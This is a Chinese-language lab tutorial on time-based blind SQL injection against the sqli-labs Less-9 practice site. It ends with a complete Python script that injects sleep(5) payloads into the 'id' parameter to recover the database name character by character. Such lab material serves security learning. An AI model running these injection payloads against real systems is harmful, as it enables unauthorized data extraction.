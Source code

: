 # 延时注入获取数据库名

- 该代码主要实现用布尔盲注来得到数据库名

- 以sqli-labs/less-9为例

  

### 环境布置

- 实现该功能需要用`requests`模块、`string`模块，和注入点的url，并创建一个请求

![image-20240311210234535](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240311210234535.png)

### 确定数据库的长度

- 因为数据库的长度可能是1位也有可能是五十位，所以我们需要建立一个循环，让他测试一下到底有多少位，可以根据请求所返回的时延来判断是否正确（我们注入一个延时函数，如果条件正确我们让他延时五秒，如果错误则不延时，利用该延时时间可以实现延时注入）

- 首先先定义一个函数，来实现当没有延时的时候输出返回的正文，当超时时显示timeout

  ![image-20240311205055697](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240311205055697.png)

- 然后建立循环并调用该函数作为判断条件，实现数据库名长度的确定

  ![image-20240311205336080](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240311205336080.png)

  

### 确定数据库名

- 经过上一步骤，已经得到该数据库名长度为八位，那么分析一下，数据库名可以由大写字母`A~Z`、小写字母`a~z`、数字`0~9`还有一些特殊符号，但是必须由字母开头。这些都是可打印字符，python中有一个`string`模块可以得到所有的可打印字符，那么只需要把这些字符跟数据库名的字符依次比较，即可得到数据库的名字

![image-20240311210752369](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240311210752369.png)



### 源码

```python
import requests
import string
url="http://192.168.200.148/sqli-labs-master/Less-9/"

req=requests.session()

def timeout(url,params):
    try:
        res=req.get(url=url,params=params,timeout=2)
    except:
        return("timeout")
    else:
        return(res.text)

# 确定数据库名长度
for i in range(1,51):
    params={
        'id' : f"1' and if(length(database())={i},sleep(5),1) -- "
    }
    if "timeout" in timeout(url=url,params=params):
        dbname_len=i
        break
print(f"[+] Length of The Database is {dbname_len}")

#数据库名的确定
c_set=string.printable.strip()
dbname=""
for i in range(1,dbname_len+1):
    for j in c_set:
        params={
                'id' : f"1' and if(substr(database(),{i},1)='{j}',sleep(5),1) -- "
            }
        if "timeout" in timeout(url=url,params=params):
            dbname+=j
            break
print(f"[+] name of The database is {dbname}")

```

